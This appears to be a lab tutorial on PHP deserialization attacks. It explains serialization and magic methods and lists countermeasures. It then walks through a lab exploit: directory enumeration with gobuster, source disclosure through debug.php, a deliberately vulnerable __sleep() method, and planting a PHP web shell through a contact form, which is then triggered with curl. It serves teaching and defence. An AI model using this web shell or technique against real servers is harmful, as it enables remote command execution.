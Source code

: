 ```yaml
---
title: "Deserialization/Serialization Attack"
teaching: 3
exercises: 30
questions:
- "What is deserialization/serialization?"
- "What are the php magic methods?"
- "What are the countermeasures?"
objectives:
- "Describe deserialization attacks."
- "Understand simple exploit."
- "Write code that avoid deserialization attacks."
---
```



## What is deserialization/serialization?

Serialization is the process of turning some object into a data format that can be restored later.
People often serialize objects in order to save them to storage, or to send as part of
communications. In php, the code looks like this: serialize(mixed $value): string

Deserialization is the reverse of that process, taking data structured from some format, and
rebuilding it into an object. Today, the most popular data format for serializing data is JSON.
Before that, it was XML. In php, the code looks like this:
unserialize(string $data, array $options = []): mixed

![demodiagram](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/e9ac88ff-50bb-4e5e-802b-989fb8f7e830)

## What are the php magic methods?

In PHP, magic methods are special methods that allow you to define custom behavior for certain
actions or events that occur on an object. These methods are automatically called by PHP based
on specific naming conventions, and they override the default behavior of PHP for those actions.

For example, __sleep() is a magic method in PHP that is called automatically when the
serialize() function is called on an object. PHP checks if the class of the object being serialized
has a method named __sleep(). If such a method exists, it is executed before the serialization
process starts. This allows you to define custom logic to prepare the object for serialization, such
as cleaning up sensitive data or performing additional data manipulation.

![deserphp](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/3e84e433-2db1-477f-8e19-357c0508fa42)

The code defines a PHP class called "test" using the "class" keyword. The class has a single
method called "__sleep()". The "__sleep()" method is a magic method in PHP that is
automatically called when you try to serialize an object of this class using the "serialize()"
function.

![desersleep](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/bea89035-748a-4d46-ae38-448ebcfdb8ac)

Within the "__sleep()" method, the code echoes the string "__sleep method called" using the
"echo" statement. This string will be printed when the "__sleep()" method is executed during
serialization.

The "__sleep()" method also returns an empty array using "return array();". In PHP, the purpose
of the "__sleep()" method is to allow you to specify which properties of an object should be
serialized. By returning an array of property names from "__sleep()", you can selectively choose
which properties should be included in the serialized representation of the object. In this case, an
empty array is returned, which means no properties will be serialized. You don’t need to pay
much attention to this property as it does not relate to the attack explained today
"serialize($new_test);"

The "serialize()" function is called with "$new_test" as an argument, which serializes the object
into a string representation. During serialization, PHP automatically calls the "__sleep()" method
of the "test" class, which echoes the string "__sleep method called" and returns an empty array.

## What are the countermeasures?

1. Input Validation: Validate and sanitize all input data, especially data that is being
deserialized. Implement strict input validation to ensure that only expected data types and
formats are accepted. Discard or reject any unexpected or malicious data during
deserialization.

2. Implement Access Controls: Implement access controls and permissions to restrict the
deserialization process to authorized users or systems. Limit the privileges of the
deserialized objects to the minimum necessary for their intended use.

3. Use Secure Serialization Methods: Use secure serialization methods, such as PHP's
"json_encode()" and "json_decode()" functions, which are less prone to deserialization
vulnerabilities compared to other serialization methods like "serialize()" and
"unserialize()".

### Demonstration
1. We will start by first adding the Deserialization Attack application:

![add_app](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/16e609c9-5446-4c6c-b70a-c7885dff74d9)

2. Next, click the View link to go to the application-specific page and start the application containers:

![start](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/5d192067-3366-4c4e-ae9e-106f158a6288)

3. Open the victim terminal and type 'ifconfig' to check the IP address for victim server  

![victim terminal](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/33064a4c-5a86-4e51-bb3c-44a057f0f4e9)



4. launch the hacker’s web interfaces in separate browser tabs by clicking the icon next to the deserialization:

![attacker-link](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f39fc9c6-f46f-4476-84e2-03a2ec342e02)

5. On the deserialization(hacker) vm, open firefox browser, or install any browser you like. Enter http://victim_ip to the URL bar to access the VNC session

![attacker-victim-vnc](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f2223721-b7fd-4914-abb3-825c9de2ec30)

6. Try going through the website like a normal user, is there anywhere you can exploit, anything you can enter?

Then, on the deserialization(hacker) vm. use the command gobuster dir -w /wordlist/wordlist_php -u http://victim_ip:8080 to list the directory and hidden file on the webserver. Feel free to try other web enumeration tools, and use different wordlist as well.

![hacker gobuster](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/hacker%20gobuster.png?raw=true)



7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a new file called debug.php running on the website. To open debug.php, use the command http://victim_ip/debug.php

![webpage-debug](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/1bb997d9-f217-47a0-84de-007e821cc54e)

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
source code of debug.php, you can enter the URL: http://<victim's IP address>:8080/debug.php?read=debug.php to view the source code of the
debug.php.

![debug php sourcecode](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/debug%20php%20sourcecode.png?raw=true)



9. In the source code of debug.php, there are two Get parameters you can manipulate. One is called read and the other is execute. read can let you check the source code of the websites and execute will allow you to execute file contain PHP source code

![gobuster-command-3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/45b13c9f-7732-4ad2-b2e0-ae1cebaef628)

10. When you run the gobuster tool, I am sure you have also found another php file called contact.php. contact.php is the file where the website will process the contact information entered by user, we can see the source code of this file by entering the URL: http://<victim's IP address>/debug.php?read=contact.php

![debug sourcecode](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/debug%20sourcecode.png?raw=true)


11. Upon reviewing the source code of contact.php file, what have you found? There is a critical vulnerability in the file, a deserialization vulnerability.

```
<?php
# Omitted some code

$new_customer = new customer;
$new_customer->name = $name;
$new_customer->email = $email;
$new_customer->comment = $comment;
$temp = serialize($new_customer);

# Omitted some code

class customer
{
   public $name;
   public $email;
   public $comment;
   public function __sleep()
   {
      // Write the content to file once the object is serialized
      $filename = $this->name . '_' . $this->email;
      file_put_contents("./user_info/$filename", $this-
>comment, FILE_USE_INCLUDE_PATH);
   }
}
?>
```

12. A closer look at the preceding code reveals that the vulnerability exists in the magic function __sleep() defined in the class customer. The logic in the function __sleep() shows that once an instance of class customer is serialized, it will write a file to a directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
Recall earlier I asked you to find the parameter you can interact with on the website,
there is a webpage where you can enter user defined text. To navigate to this page, enter
the URL http://victim_ip/contact.html to access the page.

![attacker-victim-vnc2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/d97ddab3-76ae-43a0-853a-9f3a63b07f6b)

14. On this page, there are three parameters you can define: name, email, and comment. If you still remember the source code of the contact.php file, you can make an educated guess that the contact.php will handle the post request sent by contact.html form. If you want to verify that, you can also download burpsuites and verify. Or you can also examine the source code of the contact.html page to see where the POST request is sent to.

![demodiagram2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/08579174-32fa-4df9-bcfd-96bb608d5d2b)

15. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
entering all the text, click submit to plant the webshell ``<?php $exec = system($_GET['cmd'] ) ?> ``

![demodiagram3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/47192691-5a79-4f79-88e7-0f2e0384e999)

16. On the attacker VM, use the command curl
http://victim_ip/user_info/test_user.php?cmd=whoami to test whether the planted
webshell is working or not.
You can also try http://victim_ip/user_info/test_user.php?cmd=ifconfig

![result](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/result%20.png?raw=true)


17. A secure server is running on the Secure server's IP address, you are welcome to try attacking
it, but it does not have the deserialization vulnerability and misconfiguration present on
the victim VM.




